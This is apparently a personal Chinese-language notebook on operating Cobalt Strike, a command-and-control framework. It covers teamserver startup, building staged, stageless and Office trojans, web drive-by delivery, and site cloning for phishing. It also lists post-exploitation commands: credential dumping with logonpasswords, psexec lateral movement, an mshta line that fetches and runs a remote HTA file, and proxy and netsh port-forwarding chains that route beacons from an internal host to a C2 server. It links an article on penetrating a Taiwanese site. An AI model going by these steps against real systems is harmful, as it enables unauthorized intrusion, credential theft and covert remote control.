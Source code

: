 https://mp.weixin.qq.com/s/F1H4ReV71gK7JeoYxV3n5g
https://github.com/k8gege/Aggressor/releases/tag/cs
## 环境介绍
### 启动

```shell
# windows
teamserver.bat 192.168.50.161 123456

# Linux
chomd 777 teamserver
./teamserver 192.168.159.130 pass

-xms 要 <= xmx
# 中文乱码 client
java -Dfile.encoding=utf-8 ...
```

如果报错,设置内存
```bash
java -XX:ParallelGCThreads=4 -XX:+AggressiveHeap -XX:+UseParallelGC -Xms512M -Xmx1024M -jar cobaltstrike.jar
# jdk11 启动
```

### 工具栏

![](https://s2.loli.net/2022/05/18/ot2CiV7mMeKuLq5.jpg)

[hosts / hosts (stager)](https://blog.csdn.net/qq_41874930/article/details/115545366)
可以上线到多个cs 服务器

### 插件安装 

Cobalt strike - 左上角菜单: 脚本管理器 - 选中cna - Load
安装 梼机/OLa

攻击
- Office木马, 生成后监制到docm
- 分阶段木马 - 无法选择中转监听器
- 无阶段木马

Web Drive-by:
- Manage 管理当前Team Server开启的所有web服务
- Clone Site 克隆某网站
- Host File 在Team Server的某端口提供Web以供下载某文件
- Scripted Web Delivery 为payload提供web服务以便于下载和执行
- System Profiler 用来获取系统信息:系统版本, Flash版本,浏览器 版本等

#### Ladon
http://k8gege.org/p/Ladon.html


## Attack使用
```shell
sleep 0
shell ipconfig
logonpasswords # 抓取密码 https://mp.weixin.qq.com/s?__biz=MzIwMDcyNzM0Mw==&mid=2247484470&idx=1&sn=b2f7b56028ddf701a903d981e58e324e
psexec # 链接同上

# 1.exe # 2.hta
mshta http://xx/file.hta
```
### 多种上线方式/内网/代理

[1.SMB bacon](https://cloud.tencent.com/developer/article/2036092) [2](https://forum.butian.net/share/1644) 
2. 中转listenr, 用 tcp Listener, 步骤同1
3. 代理上线
4. 正向tcp
5. pystinger

1.SMB bacon
```shell
1.新建 smb listener
2.上线主机右击: portscan,
3.扫出来的主机 右击 - Jump - psexec64 -选一个账号, - listener:smb
```

3.代理上线
```shell
#1.边缘主机131上代理服务 
proxy.exe http -t tcp -p "0.0.0.0:8080" --daemon
#2.然后端口转发到外网ip88上 
netsh interface portproxy add v4tov4 listenaddress=192.168.111.131 listenport=822 connectaddress=192.168.1.88 connectport=8080
#3.cs端 创建 Listener，配置如下
HTTP HOSTS: 192.168.1.89
HTTP Proxy: http://192.168.111.131:822
# 连接过程  192.168.111.236  → 192.168.111.131:822→ 192.168.1.88:8080→ C2(192.168.1.89)
# 攻击机89, 边缘机双ip:1.88/111.131, 内网111.236
```

4.正向tcp
```
1.beacon生成一个stageless形式的木马：上传到目标机器运行：
2.在中转机器的Beacon里使用 connect [ip address] [port]

99.销毁Beacon 链接, 在父会话或子会话的控制台中使用 unlink [ip address] [session PID] 。以后，你可以从同一主机（或其他主机）重新连接到 TCP Beacon。
```
### 代理服务器

Pivoting->SOCKS Server  # 这时监听的ip是cs服务器ip
### 与MSF联动 

[Interoperability with the Metasploit Framework](https://www.cobaltstrike.com/blog/interoperability-with-the-metasploit-framework/)
### 钓鱼攻击/Clone Site

https://blog.csdn.net/B_2013617/article/details/117079467
https://www.youtube.com/watch?time_continue=2&v=fnCLdPOmZOk&feature=emb_logo
[MSF上线CS_adobe flash](https://www.youtube.com/watch?v=fnCLdPOmZOk&t=2s)
erwerwer
# Learning

## Step1 

EventLog里可以聊天 交流。
/msg `butane text -- 私聊信息
# Article
[全网最全的Cobalt Strike使用教程系列-基础篇](https://mp.weixin.qq.com/s/4KvmV9cdyzPsYHtBlEKGFQ)
[干货|两个超实用的上线Cobaltstrike技巧！](https://mp.weixin.qq.com/s/jGwrVr0iotelS4KivC8pwA)
[全网最全的 Cobalt Strike 使用教程-内网渗透之域控攻击篇](https://mp.weixin.qq.com/s/Nfhwx0JRt5S5LbcsXNMeyg)
[Cobalt Strike Training Resources](https://www.cobaltstrike.com/training/)
[done 1/9 | Cobalt Strike Red Team Ops - Training Cours](https://www.youtube.com/playlist?list=PLcjpg2ik7YT6H5l9Jx-1ooRYpfvznAInJ)

## 使用帮助
[提取密码 | 对湾湾某网站的一次渗透测试](http://mp.weixin.qq.com/s?__biz=MzIwMDcyNzM0Mw==&mid=2247484330&idx=1&sn=fa5f3c3de8737f3ddbc5622917b2c852)

## plugin
[分享个CobaltStrike插件 Bypass防护添加用户（附下载）](https://mp.weixin.qq.com/s/6nu1dwdvdtnP_6C-nIpMVg)
[Cobalt-Strike之CrossC2插件安装与linux上线](https://mp.weixin.qq.com/s/Fty2S9ettdtTFgJWVTvQNQ)
[CobaltStrike加载插件](https://mp.weixin.qq.com/s/NtxhTkuMGhhRyLUREnZQcA)

## Vocabulary

C2: command and control


